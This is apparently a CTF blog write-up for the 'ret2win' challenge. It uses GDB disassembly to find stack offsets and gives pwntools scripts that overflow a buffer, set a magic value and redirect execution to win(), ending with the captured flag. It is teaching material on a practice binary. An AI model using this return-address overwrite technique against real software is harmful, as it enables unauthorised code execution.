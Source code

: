 ```yaml
---
title: "OSU League 2020/2021 - ret2win Writeup"
date: 2020-11-07
draft: false
description: ""
tags: ["ctf"]
---
```

The goal of this challenge is to redirect code flow to the `win()` function.  Opening up the binary in GDB, we can see some other interesting functions that we have.
```
0x0000000000400607  win
0x0000000000400652  part2
0x0000000000400699  part1
0x00000000004006ee  main
```

Let's disassemble them and see what's going on:

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x00000000004006ee <+0>:	push   rbp
   0x00000000004006ef <+1>:	mov    rbp,rsp
   0x00000000004006f2 <+4>:	mov    eax,0x0
   0x00000000004006f7 <+9>:	call   0x400699 <part1>
   0x00000000004006fc <+14>:	mov    eax,0x0
   0x0000000000400701 <+19>:	pop    rbp
   0x0000000000400702 <+20>:	ret
End of assembler dump.
gdb-peda$ disass part1
Dump of assembler code for function part1:
   0x0000000000400699 <+0>:	push   rbp
   0x000000000040069a <+1>:	mov    rbp,rsp
   0x000000000040069d <+4>:	sub    rsp,0x20
   0x00000000004006a1 <+8>:	mov    QWORD PTR [rbp-0xc],0x0
   0x00000000004006a9 <+16>:	lea    rdi,[rip+0x1a0]        # 0x400850
   0x00000000004006b0 <+23>:	call   0x4004e0 <puts@plt>
   0x00000000004006b5 <+28>:	mov    rdx,QWORD PTR [rip+0x200994]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x00000000004006bc <+35>:	lea    rax,[rbp-0x20]
   0x00000000004006c0 <+39>:	mov    esi,0x20
   0x00000000004006c5 <+44>:	mov    rdi,rax
   0x00000000004006c8 <+47>:	call   0x400500 <fgets@plt>
   0x00000000004006cd <+52>:	mov    rdx,QWORD PTR [rbp-0xc]
   0x00000000004006d1 <+56>:	movabs rax,0xbaddecafbeefcafe
   0x00000000004006db <+66>:	cmp    rdx,rax
   0x00000000004006de <+69>:	jne    0x4006eb <part1+82>
   0x00000000004006e0 <+71>:	mov    eax,0x0
   0x00000000004006e5 <+76>:	call   0x400652 <part2>
   0x00000000004006ea <+81>:	nop
   0x00000000004006eb <+82>:	nop
   0x00000000004006ec <+83>:	leave
   0x00000000004006ed <+84>:	ret
End of assembler dump.
```

So all `main` does it seems is to just call `part1()`.  And in that function it compares some value on the stack to the value `0xbaddecafbeefcafe`, and jumps to `part2()` if they are equal.  We can see the value is located at `$rbp-0xc`, and that the max buffer size is `0x20` bytes. So all we need to do is input `0x20 - 0x0c = 0x14` bytes, or 20 bytes, followed by `0xbaddecafbeefcafe`.

```python
from pwn import *

io = process("./ret2win")

io.recvuntil("overwrite data")
payload_1 = b"A" * 20
payload_1 += p64(0xbaddecafbeefcafe)

io.sendline(payload_1)

io.interactive()
```

And running it we are able to call `part2()`!

```
[+] Starting local process './ret2win': pid 2557
[*] Switching to interactive mode

Well done!
That was the same vuln as last week though, we probably shouldn't give you a flag for that
Reply "yes" to awknowledge that you don't deserve any points
$ no
[*] Got EOF while reading in interactive
```

Let's now take a look at the disassembly of `part2()`:


```
gdb-peda$ disass part2
Dump of assembler code for function part2:
   0x0000000000400652 <+0>:	push   rbp
   0x0000000000400653 <+1>:	mov    rbp,rsp
   0x0000000000400656 <+4>:	sub    rsp,0x20
   0x000000000040065a <+8>:	lea    rdi,[rip+0x13e]        # 0x40079f
   0x0000000000400661 <+15>:	call   0x4004e0 <puts@plt>
   0x0000000000400666 <+20>:	lea    rdi,[rip+0x143]        # 0x4007b0
   0x000000000040066d <+27>:	call   0x4004e0 <puts@plt>
   0x0000000000400672 <+32>:	lea    rdi,[rip+0x197]        # 0x400810
   0x0000000000400679 <+39>:	call   0x4004e0 <puts@plt>
   0x000000000040067e <+44>:	mov    rdx,QWORD PTR [rip+0x2009cb]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400685 <+51>:	lea    rax,[rbp-0x20]
   0x0000000000400689 <+55>:	mov    esi,0x64
   0x000000000040068e <+60>:	mov    rdi,rax
   0x0000000000400691 <+63>:	call   0x400500 <fgets@plt>
   0x0000000000400696 <+68>:	nop
   0x0000000000400697 <+69>:	leave
   0x0000000000400698 <+70>:	ret
End of assembler dump.
gdb-peda$ break *0x0000000000400691
Breakpoint 1 at 0x400691
gdb-peda$ r < part1
```
I set a break point at the end so I can take a look at the stack frame.  `part1` is just a text file with the payload already in it.

```
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdec0:
 rip = 0x400691 in part2; saved rip = 0x4006ea
 called by frame at 0x7fffffffdef0
 Arglist at 0x7fffffffdeb0, args:
 Locals at 0x7fffffffdeb0, Previous frame's sp is 0x7fffffffdec0
 Saved registers:
  rbp at 0x7fffffffdeb0, rip at 0x7fffffffdeb8
gdb-peda$ p 0xdeb8 - (0xdeb0 - 0x20)
$4 = 0x28
```

So now with this, we know the start of the buffer is at `$rbp - 0x20`. Subract that from `$rip` and we get how many bytes we need to fill before we overwrite the instruction pointer.

But what should we overwrite it with?  Well, we can give any address we want and it will jump to it!  So let's give it the address of the `win()` function. Recall that:

```
0x0000000000400607  win
```

So now we can build our final exploit:

```python
from pwn import *

#io = process("./ret2win")
io = remote('ctf.ropcity.com', 31337)

io.recvuntil("overwrite data")
payload_1 = b"A" * 20
payload_1 += p64(0xbaddecafbeefcafe)

f = open("part1", "wb")
f.write(payload_1)
f.close()

io.sendline(payload_1)
io.recvuntil("any points")

payload_2 = b"A" * 40
payload_2 += p64(0x0000000000400607)

io.sendline(payload_2)

io.interactive()
```

And running it we get the flag!

```
[+] Starting local process './ret2win': pid 115498
Reply "yes" if you remember how to overwrite data

[*] Switching to interactive mode
Well done!
That was the same vuln as last week though, we probably shouldn't give you a flag for that
Reply "yes" to awknowledge that you don't deserve any points
osu{$oRRY_y0U_d0_de$Erv3_7his}
```
